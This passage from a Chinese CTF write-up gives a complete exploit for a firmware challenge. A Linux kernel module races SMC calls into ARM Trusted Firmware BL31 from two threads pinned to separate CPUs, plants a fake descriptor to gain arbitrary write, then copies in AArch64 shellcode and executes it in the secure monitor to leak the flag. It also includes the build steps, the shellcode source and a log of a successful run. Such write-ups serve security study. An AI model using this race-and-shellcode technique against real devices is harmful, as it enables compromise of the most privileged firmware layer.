                                     (oen<<FUNCID_OEN_SHIFT) | (num<<FUNCID_NUM_SHIFT))
#define STORAGE_SVC_WR   0xC9000031
#define STORAGE_SVC_RD   0xC9000032

#define LOG_SMC_FID(num)   SMC_FID(SMC_TYPE_YIELD, SMC_64, OEN_LOG_SVC, num)
#define LOG_SVC_PLOG_SET   LOG_SMC_FID(2)
#define LOG_SVC_PLOG_RD    LOG_SMC_FID(3)
#define LOG_SVC_ABWR       LOG_SMC_FID(2)
#define LOG_SVC_SC         LOG_SMC_FID(3)

#define BL31_NS_MEM       0x423dc000
#define BL31_NS_MEM_SIZE  0x1000

#define MAX_SIZE_ADDR     0xE0D70B0
#define MEMCPY_ADDR       0xE0A3160

#define FAKE_DESC_ADDR    0xe0d96f0
#define FAKE_DESC         0xe0db7c3
#define SC_RW_ADDR        0xe0db000
#define SC_EXEC_ADDR      0xe0de000

static uint64_t *ns_mem = NULL;

static int func1_thread(void *data) {
    struct arm_smccc_res res;
    struct task_struct *task2 = (struct task_struct *)data;

    pr_info("func1 is running on CPU %d\n", smp_processor_id());
    while (!kthread_should_stop()) {
        for (size_t i = 0; i < 0x20; i++)
            arm_smccc_smc(STORAGE_SVC_WR, 0, BL31_NS_MEM+0x80, 0x80, 0, 0, 0, 0, &res);
        if (res.a0 == 0) {
            pr_info("Condition successed!\n");
            kthread_stop(task2);
            break;
        }
    }
    return 0;
}

static int func2_thread(void *data) {
    pr_info("func2 is running on CPU %d\n", smp_processor_id());
    while (!kthread_should_stop()) {
        ns_mem[0] = MAX_SIZE_ADDR;
    }
    return 0;
}

static int step1_open(struct inode *inode, struct file *file) {
    pr_info("Step1: Device opened\n");
    struct arm_smccc_res res;
    struct task_struct *task1, *task2;

    ns_mem = phys_to_virt(BL31_NS_MEM);
    arm_smccc_smc(LOG_SVC_PLOG_SET, BL31_NS_MEM, 0, 0, 0, 0, 0, 0, &res);
    pr_info("SMC Driver: LOG_SVC_PLOG_SET, res.0 = 0x%lx\n", res.a0);

    task2 = kthread_create(func2_thread, NULL, "func2_thread");
    kthread_bind(task2, 2);
    wake_up_process(task2);

    task1 = kthread_create(func1_thread, (void *)task2, "func1_thread");
    kthread_bind(task1, 1);
    wake_up_process(task1);

    return 0;
}

static int step2_open(struct inode *inode, struct file *file) {
    pr_info("Step2: Device opened\n");
    struct arm_smccc_res res;

    if (!ns_mem)
        ns_mem = phys_to_virt(BL31_NS_MEM);
    memset(ns_mem, 0, 0x40);

    ns_mem[8] = 2;
    ns_mem[9] = MEMCPY_ADDR;
    ns_mem[10] = 3;
    ns_mem[11] = SC_EXEC_ADDR;
    arm_smccc_smc(STORAGE_SVC_WR, 0xf, BL31_NS_MEM, 0x60, 0, 0, 0, 0, &res);

    //arm_smccc_smc(STORAGE_SVC_RD, 0xf, SC_RW_ADDR, 0x60, 0, 0, 0, 0, &res);

    ns_mem[0] = FAKE_DESC;
    arm_smccc_smc(LOG_SVC_ABWR, FAKE_DESC_ADDR, BL31_NS_MEM, 0x8, 0, 0, 0, 0, &res);

    unsigned char shellcode[] = {
        0xA0, 0x47, 0xA8, 0xF2, 0x00, 0x20, 0x98, 0xF2, 0x01, 0xFC,
        0x3B, 0xD5, 0x01, 0x00, 0x00, 0xB9, 0x21, 0xFC, 0x3B, 0xD5,
        0x01, 0x04, 0x00, 0xB9, 0x41, 0xFC, 0x3B, 0xD5, 0x01, 0x08,
        0x00, 0xB9, 0x61, 0xFC, 0x3B, 0xD5, 0x01, 0x0C, 0x00, 0xB9,
        0x81, 0xFC, 0x3B, 0xD5, 0x01, 0x10, 0x00, 0xB9, 0xA1, 0xFC,
        0x3B, 0xD5, 0x01, 0x14, 0x00, 0xB9, 0xC1, 0xFC, 0x3B, 0xD5,
        0x01, 0x18, 0x00, 0xB9, 0xE1, 0xFC, 0x3B, 0xD5, 0x01, 0x1C,
        0x00, 0xB9, 0xC0, 0x03, 0x5F, 0xD6
    };
    /*
        "MOVK X0, #0x423d, LSL #16\n"
        "MOVK X0, #0xc100\n"
        "STR W1, [X0]\n"
        "MRS X1, S3_3_C15_C12_1\n"
        "STR W1, [X0,#4]\n"
        "MRS X1, S3_3_C15_C12_2\n"
        "STR W1, [X0,#8]\n"
        "MRS X1, S3_3_C15_C12_3\n"
        "STR W1, [X0,#0xC]\n"
        "MRS X1, S3_3_C15_C12_4\n"
        "STR W1, [X0,#0x10]\n"
        "MRS X1, S3_3_C15_C12_5\n"
        "STR W1, [X0,#0x14]\n"
        "MRS X1, S3_3_C15_C12_6\n"
        "STR W1, [X0,#0x18]\n"
        "MRS X1, S3_3_C15_C12_7\n"
        "STR W1, [X0,#0x1C]\n"
        "ret\n"
    */
    memcpy((uint8_t *)ns_mem, shellcode, sizeof(shellcode));
    arm_smccc_smc(LOG_SVC_ABWR, SC_RW_ADDR, BL31_NS_MEM, sizeof(shellcode), 0, 0, 0, 0, &res);
    arm_smccc_smc(LOG_SVC_SC, 0, 0, 0, 0, 0, 0, 0, &res);
    pr_info("flag: %s\n", ((uint8_t *)ns_mem)+0x100);

    return 0;
}

static int step1_close(struct inode *inode, struct file *file) {
    pr_info("Step1: Device closed\n");
    return 0;
}

static int step2_close(struct inode *inode, struct file *file) {
    pr_info("Step2: Device closed\n");
    return 0;
}

static const struct file_operations step1_fops = {
    .open = step1_open,
    .release = step1_close,
};

static const struct file_operations step2_fops = {
    .open = step2_open,
    .release = step2_close,
};

static int __init smc_driver_init(void) {
    pr_info("SMC Driver: Initializing the driver\n");

    step1_major_number = register_chrdev(0, DEVICE_NAME1, &step1_fops);
    if (step1_major_number < 0) {
        pr_err("Step1: Failed to register a major number\n");
        return step1_major_number;
    }
    step1_class = class_create("step1_class");
    if (IS_ERR(step1_class)) {
        unregister_chrdev(step1_major_number, DEVICE_NAME1);
        pr_err("Step1: Failed to register device class\n");
        return PTR_ERR(step1_class);
    }
    step1_device = device_create(step1_class, NULL, MKDEV(step1_major_number, 0), NULL, DEVICE_NAME1);
    if (IS_ERR(step1_device)) {
        class_destroy(step1_class);
        unregister_chrdev(step1_major_number, DEVICE_NAME1);
        pr_err("Step1: Failed to create the device\n");
        return PTR_ERR(step1_device);
    }

    step2_major_number = register_chrdev(0, DEVICE_NAME2, &step2_fops);
    if (step2_major_number < 0) {
        pr_err("Step2: Failed to register a major number\n");
        return step2_major_number;
    }
    step2_class = class_create("step2_class");
    if (IS_ERR(step2_class)) {
        unregister_chrdev(step2_major_number, DEVICE_NAME2);
        pr_err("Step2: Failed to register device class\n");
        return PTR_ERR(step2_class);
    }
    step2_device = device_create(step2_class, NULL, MKDEV(step2_major_number, 0), NULL, DEVICE_NAME2);
    if (IS_ERR(step2_device)) {
        class_destroy(step2_class);
        unregister_chrdev(step2_major_number, DEVICE_NAME2);
        pr_err("Step2: Failed to create the device\n");
        return PTR_ERR(step2_device);
    }

    pr_info("SMC Driver: Device created successfully\n");
    return 0;
}

static void __exit smc_driver_exit(void) {
    pr_info("SMC Driver: Exiting the driver\n");

    device_destroy(step1_class, MKDEV(step1_major_number, 0));
    class_unregister(step1_class);
    class_destroy(step1_class);
    unregister_chrdev(step1_major_number, DEVICE_NAME1);

    device_destroy(step2_class, MKDEV(step2_major_number, 0));
    class_unregister(step2_class);
    class_destroy(step2_class);
    unregister_chrdev(step2_major_number, DEVICE_NAME2);
}

module_init(smc_driver_init);
module_exit(smc_driver_exit);
MODULE_LICENSE("GPL");
MODULE_DESCRIPTION("A driver to interact with ATF BL31 using SMC calls");
```

Makefile：

内核源码下载：[linux-6.6](https://mirrors.tuna.tsinghua.edu.cn/kernel/v6.x/linux-6.6.tar.xz)

```makefile
obj-m := smc_driver.o

KERNELDR := $(shell pwd)/linux-6.6
KERNEL_MODULE := smc_driver.ko
KERNEL_MODULE_SRC := smc_driver.c

PWD := $(shell pwd)

$(KERNEL_MODULE): $(KERNEL_MODULE_SRC)
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules

clean:
	rm -rf *.o *.mod.c *.order *.symvers
```

编译：

```bash
make ARCH=arm64 CROSS_COMPILE=aarch64-linux-gnu-
make clean
```

## Shellcode

shellcode.c

```c
void main() {
    __asm__ __volatile__(
        "MOVK X0, #0x423d, LSL #16\n"
        "MOVK X0, #0xc100\n"
        "MRS X1, S3_3_C15_C12_0\n"
        "STR W1, [X0]\n"
        "MRS X1, S3_3_C15_C12_1\n"
        "STR W1, [X0,#4]\n"
        "MRS X1, S3_3_C15_C12_2\n"
        "STR W1, [X0,#8]\n"
        "MRS X1, S3_3_C15_C12_3\n"
        "STR W1, [X0,#0xC]\n"
        "MRS X1, S3_3_C15_C12_4\n"
        "STR W1, [X0,#0x10]\n"
        "MRS X1, S3_3_C15_C12_5\n"
        "STR W1, [X0,#0x14]\n"
        "MRS X1, S3_3_C15_C12_6\n"
        "STR W1, [X0,#0x18]\n"
        "MRS X1, S3_3_C15_C12_7\n"
        "STR W1, [X0,#0x1C]\n"
        "ret\n"
    );
}
```

编译：

```bash
aarch64-linux-gnu-gcc -o shellcode ./shellcode.c
```

提取：





## Exploit

```bash
Welcome to Buildroot, type root or test to login
buildroot login: root
# mkdir /mnt/shared && mount -t 9p -o trans=virtio hostshare /mnt/shared
# insmod /mnt/shared/smc_driver.ko
# cat /dev/step1_driver 
cat: read error: Invalid argument
# cat /dev/step2_driver 
cat: read error: Invalid argument
# dmesg
...
[   24.694680] smc_driver: loading out-of-tree module taints kernel.
[   24.700790] SMC Driver: Initializing the driver
[   24.702449] SMC Driver: Device created successfully
[   31.985097] Step1: Device opened
[   31.986342] SMC Driver: LOG_SVC_PLOG_SET, res.0 = 0x423dc008
[   31.988060] func2 is running on CPU 2
[   31.989497] func1 is running on CPU 1
[   31.990671] Step1: Device closed
[   31.991532] Condition successed!
[   35.817774] Step2: Device opened
[   35.818487] flag: flag{123123123123}
[   35.819386] Step2: Device closed
```


# Reference

* https://github.com/ARM-software/arm-trusted-firmware.git
* [SMC Calling Convention](http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf)
* [Draytek3910 固件解密及漏洞分析](https://www.iotsec-zone.com/article/479)
* [Linux与BL31之间添加SMC实现随机数获取](https://blog.csdn.net/qq_16106195/article/details/133066328#t19)
* [第三届阿里云CTF官方Writeup](https://xz.aliyun.com/news/17029)
* [cnwangjihe师傅的wp](https://cnwangjihe.notion.site/trust_storage-1a32fe66351f80b1a884f80c22aa5137)（几经辗转联系到佬师要到wp！！！非常感谢！！！）
* [Kernel threads made easy](https://lwn.net/Articles/65178/)
* [Double Mapping the Secure Monitor](https://blog.impalabs.com/2212_advisory_huawei-secure-monitor.html#double-mapping-the-secure-monitor)
